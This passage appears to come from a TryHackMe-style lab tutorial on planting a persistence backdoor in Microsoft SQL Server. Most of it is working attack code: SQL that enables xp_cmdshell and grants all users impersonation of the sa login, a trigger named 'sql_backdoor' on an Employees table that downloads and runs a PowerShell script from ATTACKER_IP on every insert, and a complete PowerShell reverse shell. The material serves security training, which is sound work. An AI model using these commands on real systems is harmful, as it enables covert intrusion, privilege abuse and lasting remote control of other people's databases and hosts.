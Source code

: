 ![New SQL query](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eb3aaca1ed1da7d1e08f0c3069a5633a.png)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable`xp_cmdshell`.

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run`xp_cmdshell`. By default, only database users with the`sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the`sa` user, which is the default database administrator:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the`HRDB` database:

```sql
USE HRDB
```

Our trigger will leverage`xp_cmdshell` to execute Powershell to download and run a`.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an`INSERT` is made into the`Employees` table of the`HRDB` database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create`evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
 $sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
 $stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush()
};

$client.Close()
```
